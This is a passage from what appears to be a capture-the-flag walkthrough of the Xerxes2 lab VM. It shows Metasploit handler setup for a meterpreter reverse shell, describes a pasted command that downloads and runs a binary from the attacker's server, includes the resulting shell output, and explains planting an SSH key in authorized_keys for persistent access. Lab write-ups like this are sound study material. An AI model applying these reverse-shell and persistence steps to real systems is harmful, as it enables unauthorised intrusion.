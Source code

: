


``` bash

root@pwk:~# msfconsole
msf > use multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.110
lhost => 192.168.0.110
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.110:4444
[*] Starting the payload handler...
```


The following command pasted into the Python notebook application downloads the binary from the HTTP server to /tmp, makes it executable, and then executes it.

[![xerxes2_004](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_004.png)](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_004.png)

A reverse connection is received by the multi/handler, which allows us to get a shell as delacroix, but it disconnects after a certain amount of time.


``` bash

[*] Sending stage (1138688 bytes) to 192.168.0.102
[*] Meterpreter session 1 opened (192.168.0.110:4444 -> 192.168.0.102:34718) at 2014-08-08 13:20:31 +0100

meterpreter > shell
Process 14990 created.
Channel 1 created.
$ id
uid=1002(delacroix) gid=1002(delacroix) groups=1002(delacroix)
$
[*] 192.168.0.102 - Meterpreter session 1 closed.  Reason: Died
```


![](http://media.giphy.com/media/8x6MVS4l7wh3O/giphy.gif)

It seems that I've been scuppered, and that Xerxes is terminating my connection, as seen on the Python Notebook page

[![xerxes2_005](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_005.png)](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_005.png)

However, it looks like I have a small window before the session is terminated - because of this I am able to be quick and echo my SSH public key added to the authorized_keys file, which allows me to subsequently SSH in as delacroix sans password.
